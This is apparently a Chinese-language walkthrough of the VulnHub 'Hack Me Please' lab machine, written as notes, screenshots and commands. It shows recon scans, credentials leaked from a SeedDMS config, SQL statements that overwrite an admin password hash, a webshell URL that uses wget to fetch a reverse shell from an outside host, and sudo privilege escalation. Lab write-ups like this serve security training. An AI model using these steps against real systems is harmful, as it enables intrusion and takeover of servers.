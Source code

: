 # Hack Me Please
> URL : https://www.vulnhub.com/entry/hack-me-please-1,731/


IP : 192.168.1.111

## Recon
- 掃 Port
	- `rustscan -a 192.168.1.111`
		- ![](https://i.imgur.com/GQ3XhCP.png)
	- `nmap -A -p80,3306,33060 192.168.1.111`
		- ![](https://i.imgur.com/NgbBNJB.png)

- 掃 Dir
	- `python3 dirsearch.py -u http://192.168.1.111/`
		- ![](https://i.imgur.com/nC8b3F5.png)
		- 看不出啥特別ㄉ
- 觀察首頁
	- ![](https://i.imgur.com/qfWookP.png)
- 觀察 `main.js`
	- ![](https://i.imgur.com/Gnuznh1.png)
	- 發現註解寫了一個 `/seeddms51x/seeddms-5.1.22` 的路徑
		- ![](https://i.imgur.com/mUDfth8.png)
## DMS
- 掃路徑發現有 `install` 等資訊
	- ![](https://i.imgur.com/zidhCez.png)
- 觀察原始碼
	- ![](https://i.imgur.com/fb02TAU.png)
	- 到 SorceForge 下載原始碼
- 觀察路徑
	- ![](https://i.imgur.com/Ry12QOc.png)
	- 發現路徑內有 `/conf/` 可能有重要的資訊
- `/conf/settings.xml` 可以存取
	- 裡面找到 mysql 的帳密 `seeddms`
## MySQL
- 進行 MySQL 連線
	- ![](https://i.imgur.com/9kPLyD2.png)
- 觀察 DB
	- ![](https://i.imgur.com/1949mIG.png)
- 觀察表格
	- ![](https://i.imgur.com/tKUTHXI.png)
- `users`
	- ![](https://i.imgur.com/pw1MWYq.png)
	- ![](https://i.imgur.com/GibIYc2.png)
	- 找到一組帳密
		- `saket`
		- `saurav`
		- `Saket@#$1337`
	- 但登入 DMS 失敗
- 找到 `tblUsers`
	- ![](https://i.imgur.com/3tdrjpv.png)
	- 分析 hash
	- ![](https://i.imgur.com/iyjvDSu.png)
		- 應該是 md5
- 哈希貓爆破
	- ![](https://i.imgur.com/I5MAAw3.png)
	- 爆不出來QQ
- 自己創一個使用者
	```mysql
	INSERT INTO tblUsers
	(id,login,pwd,fullName,email,role,language,theme,comment)
	VALUES
	(3,"meow","4a4be40c96ac6314e91d93f38043a634","Meow","meow@meow.meow",1,"en_US",0,0);
	```
	- ![](https://i.imgur.com/vF0oItn.png)
	- ![](https://i.imgur.com/ahHqKQA.png)
		- 可以登入，但畫面是白的 QQ
- 改使用者密碼
	- 原本是 `f9ef2c539bad8a6d2f3432b6d49ab51a`
		- 先存著備用，怕以後要用到
	- `update tblUsers set pwd='4a4be40c96ac6314e91d93f38043a634' where id=1;`
		- ![](https://i.imgur.com/PAzpNXC.png)
		- 就登入成功ㄌ
	- 上傳 webshell
- 因為 `seeddms51x` 目錄沒有鎖權限
	- 根據觀察，檔案會存在 `http://192.168.1.111/seeddms51x/data/1048576/{檔案ID}/1.{檔案附檔名}`
		- ![](https://i.imgur.com/8K0Y0IX.png)
- 載 Reverse shell
	- http://192.168.1.111/seeddms51x/data/1048576/4/1.php?A=wget%20192.168.1.109:8000/s_l
- 接上 Reverse shell
	- 使用交互式
		- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
	- 切換使用者
		- ![](https://i.imgur.com/sU18oMU.png)
		- 使用當初 DB 看到的密碼
- 提權
	- `sudo -l` 發現可以直接成為 root
		- ![](https://i.imgur.com/Q9bgJGa.png)

